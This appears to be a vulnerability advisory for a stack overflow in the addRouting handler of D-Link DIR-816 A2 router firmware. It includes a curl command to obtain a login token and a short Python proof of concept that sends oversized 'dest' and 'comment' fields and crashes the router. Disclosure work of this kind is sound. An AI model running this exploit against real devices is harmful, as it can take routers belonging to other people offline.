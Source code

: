 # D-link DIR-816 A2_v1.10CNB04.img Stack overflow vulnerability

## Firmware information

- Manufacturer's address：https://www.dlink.com/

- Firmware download address ： http://tsd.dlink.com.tw/GPL.asp

## Affected version

![](https://github.com/z1r00/IOT_Vul/blob/main/dlink/dir816/img/vuln2.png)

The picture above shows the latest firmware for this version

## Vulnerability details

![](https://github.com/z1r00/IOT_Vul/blob/main/dlink/Dir816/addRouting/img/vuln1.png)

As can be seen from the above figure, when the hostnet is net, dest will be copied to v14. It is worth noting that the size is not limited, which leads to stack overflow.

![](https://github.com/z1r00/IOT_Vul/blob/main/dlink/Dir816/addRouting/img/vuln2.png)

At the same time, there is another place below this function that can cause stack overflow. As shown in the figure above, the control v18 is the comment, and v18 will be added to v16. There is no size limit, which will lead to stack overflow.

## Poc

We need to get the tokenid first

```
curl http://192.168.0.1/dir_login.asp | grep tokenid
```

接着构造以下poc即可

```python
import requests

li = lambda x : print('\x1b[01;38;5;214m' + x + '\x1b[0m')
ll = lambda x : print('\x1b[01;38;5;1m' + x + '\x1b[0m')

tokenid = 'xxx'

url = 'http://192.168.0.1/goform/addRouting'

data = {
    'tokenid' : tokenid,
    'dest' : 'a' * 10000, 
    'hostnet' : 'net',
    'netmask' : '255.255.255.0',
    'gateway' : '192.168.0.1',
    'interface' : 'LAN',
    'custom_interface' : 'br0',
    'comment' : 'a' * 10000

}
response = requests.post(url, data=data)
response.encoding="utf-8"
info = response.text
li(url)
print(info)
```

final router crash


![](https://github.com/z1r00/IOT_Vul/blob/main/dlink/Dir816/addRouting/img/vuln3.png)

